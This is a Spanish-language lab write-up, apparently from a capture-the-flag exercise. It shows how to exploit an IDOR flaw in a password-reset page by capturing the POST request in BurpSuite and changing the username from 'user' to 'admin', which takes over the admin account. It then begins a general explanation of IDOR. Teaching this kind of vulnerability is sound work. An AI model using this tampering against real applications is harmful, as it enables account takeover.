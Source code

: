 Vemos que en estos `2` archivos no valida que el usuario sea el legitimo a nivel de peticion, por lo que si se modifica alguna peticion con otra informacion, el servidor no lo valida y confia en lo que le llegue por lo que podremos cambiar la `password` del usuario `admin`.

Estando dentro de la pagina le daremos a `¿Olvidaste tu contraseña?` con las credenciales por defecto que viene en la pagina `user:user` poniendo eso, veremos que entraremos en una apartado en el que tendremos que poner la nueva contraseña para dicho usuario, pero en esta parte abriremos `BurpSuite` y capturaremos la peticion del cambio de contraseña, viendo algo asi:

```
POST /reset_password.php?temp-forgot-password-token=ABC123 HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://172.17.0.2
Connection: keep-alive
Referer: http://172.17.0.2/reset_password.php?temp-forgot-password-token=ABC123&username=user
Cookie: PHPSESSID=c81glfe7e77ol15a1ipcu83tfd
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=user&password=user1
```

Veremos que hay `2` campos, uno que es para el usuario y otro para la contraseña, el que nos interesa es el del usuario, cambiaremos `user` por `admin` para que se le cambie la contraseña a `admin`, enviaremos dicha peticion modificada y si volvemos a la pagina veremos lo siguiente:

```
La contraseña para el usuario admin se ha cambiado correctamente.
```

Ahora si probamos a iniciar sesion con el usuario `admin` veremos que nos deja, por lo que habremos aprovechado dicha vulnerabilidad.

## Explicación detallada `IDOR`

### **Vulnerabilidad IDOR (Insecure Direct Object Reference)**

#### **¿Qué es IDOR?**

**IDOR (Insecure Direct Object Reference)** es una vulnerabilidad de control de acceso que ocurre cuando un usuario puede acceder directamente a recursos o datos que no deberían estar disponibles para él, debido a la falta de validación adecuada en el backend.

El problema surge cuando una aplicación expone identificadores de objetos en la URL o en los parámetros de solicitud, permitiendo que un atacante modifique estos valores y acceda a información de otros usuarios sin la autorización adecuada.
